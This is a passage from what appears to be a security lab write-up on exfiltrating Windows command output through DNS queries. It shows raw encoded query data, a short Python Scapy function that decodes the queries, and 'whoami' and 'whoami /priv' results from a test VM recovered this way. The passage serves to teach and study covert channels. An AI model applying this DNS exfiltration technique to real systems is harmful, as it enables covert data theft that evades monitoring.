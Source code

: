     
    
    QVolumeX.QinX.QdriveX.QCX.QhasX.QnoX.Qlabel.X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    QVolumeX.QSerialX.QNumberX.QisX.QF06E-7663X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    QDirectoryX.QofX.QC:Users0xdftestX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    Q02/25/2019X.Q07:04X.QAMX.Q<DIR>X.Q.X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    Q0X.QFile(s)X.Q0X.QbytesX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    Q2X.QDir(s)X.Q4,912,214,016X.QbytesX.QfreeX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    

### Updating DNS Parse

Looking at the output above, I’ll notice that each field is broken by `X.Q`.
So, to get this back to what I’m looking for, I’ll update the `parse_packet`
function to replace `X.Q` with space. I’ll also drop the leading character
(`Q`) and the trailing two (`X.`):

    
    
     23     def parse_packet(self, p):
     24         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
     25             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     26             print(domain[1:-2].replace('X.Q',' ').strip())
    

Now I can run commands from the VM and see results. I’ll show a couple
examples with the output of the command on the VM, followed by what I get
through DNS with the script.

`whoami`:

    
    
    C:\Users\0xdf\test>whoami
    sevener\0xdf
    
    
    
    sevener0xdf
    

`whoami /priv`:

    
    
    C:\Users\0xdf\test>whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                          State
    ============================= ==================================== ========
    SeShutdownPrivilege           Shut down the system                 Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
    SeUndockPrivilege             Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
    SeTimeZonePrivilege           Change the time zone                 Disabled
    